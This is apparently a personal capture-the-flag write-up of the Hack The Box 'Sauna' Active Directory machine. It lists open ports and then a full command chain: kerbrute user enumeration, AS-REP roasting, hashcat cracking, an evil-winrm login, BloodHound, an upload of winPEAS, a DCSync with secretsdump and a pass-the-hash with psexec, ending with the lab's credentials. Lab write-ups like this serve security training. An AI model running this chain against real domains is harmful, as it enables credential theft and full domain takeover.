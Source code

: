 # Enumeration 

## open ports

```
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-19 18:05:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
53/tcp   open  domain        Simple DNS Plus                                                                                                     
80/tcp   open  http          Microsoft IIS httpd 10.0
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws

```

### Port 80
![[Pasted image 20230119131503.png]]


### Port 53  
zone transfer
![[Pasted image 20230119131634.png]]

### Port 389
![[Pasted image 20230119132100.png]]
DC=EGOTISTICAL-BANK, DC=LOCAL



![[Pasted image 20230119232030.png]]

brute forcing domain usernames
`./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc $ip /opt/SecLists/Usernames/xato-net-10-million-usernames.txt`

![[Pasted image 20230120010053.png]]


trying AS-REP using GetNPUsers impacket 

` GetNPUsers.py -dc-ip $ip -request 'EGOTISTICAL-BANK.LOCAL/fsmith' -no-pass`

![[Pasted image 20230120010138.png]]

cracking hash

`hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt`
![[Pasted image 20230120010445.png]]


`evil-winrm -i $ip -u fsmith -p Thestrokes23`

![[Pasted image 20230120010535.png]]

# Privesc 
running bloodhound.py to get info
```
bloodhound-python --dns-tcp -ns $ip -d EGOTISTICAL-BANK.LOCAL -u 'fsmith' -p 'Thestrokes23' -c all 
```
![[Pasted image 20230120011429.png]]


imported data to bloodhound

![[Pasted image 20230120011527.png]]


uploading winpeas to the target
using evil-winrm

```
upload winpeasany.exe
. .\winpeas.exe
```
![[Pasted image 20230120015118.png]]
![[Pasted image 20230120015259.png]]

rerun bloodhound
`bloodhound-python --dns-tcp -ns $ip -d EGOTISTICAL-BANK.LOCAL -u 'fsmith' -p 'Thestrokes23' -c all `
![[Pasted image 20230120021917.png]]
user svc_loanmngr has DCSync priv that means he can read all users passwords

using secretsdump from ipmpacket
`secretsdump.py -just-dc svc_loanmgr:'Moneymakestheworldgoround!'@$ip -outputfile dcsync_hashes`

![[Pasted image 20230120022838.png]]


```
psexec.py administrator:@$ip -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e'
```


![[Pasted image 20230120022951.png]]

# Loot
fsmith user creds:
	username:fsmith
	password:Thestrokes23

svc_loanmanager
	username: svc_loanmgr
	password:Moneymakestheworldgoround!


---
Tags: #ctf #htb #ASP_roasting #DCSync #AD #kerbrute #secretsdump #GetNPUsers 
Resources:  [Sauna](https://app.hackthebox.com/machines/229)